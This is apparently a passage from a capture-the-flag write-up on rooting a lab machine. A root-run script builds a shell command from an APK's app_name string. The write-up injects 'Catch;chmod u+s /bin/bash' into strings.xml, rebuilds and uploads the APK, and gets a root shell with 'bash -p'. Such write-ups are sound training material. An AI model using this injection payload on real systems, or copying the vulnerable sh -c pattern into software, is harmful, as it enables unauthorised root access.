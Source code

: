 ```bash
####################
# Basic App Checks #
####################

app_check() {
	APP_NAME=$(grep -oPm1 "(?<=<string name=\"app_name\">)[^<]+" "$1/res/values/strings.xml")
	echo $APP_NAME
	if [[ $APP_NAME == *"Catch"* ]]; then
		echo -n $APP_NAME|xargs -I {} sh -c 'mkdir {}'
		mv "$3/$APK_NAME" "$2/$APP_NAME/$4"
	else
		echo "[!] App doesn't belong to Catch Global"
		cleanup
		exit
	fi
}
```

It is using `xargs` to generate a command that will create directory with a name of the application. The name of the application is obtained, after decompiling the APK, from a file called `strings.xml`. This is actually the file where we found the application tokens earlier.

Since we can edit this file, it is possible to change the variable name the script is using and inject a command that will be run by `root`:

```xml
	...
	<string name="abc_toolbar_collapse_description">Collapse</string>
    <string name="app_name">Catch;chmod u+s /bin/bash</string>
    <string name="appbar_scrolling_view_behavior">
    ...
```

In this case, the idea is that the `bash` binary will be turned into a SUID binary to allow us to get `root` access easily. Just recompile the new APK with `apktool b catchv1.0` and upload the application to the `/opt/mdm/apk_bin/` folder in the target.

After waiting a bit, the APK file gets removed and...

```bash
will@catch:~$ bash -p
bash-5.0#
```

We have rooted it! Get the flag under `/root/root.txt`.
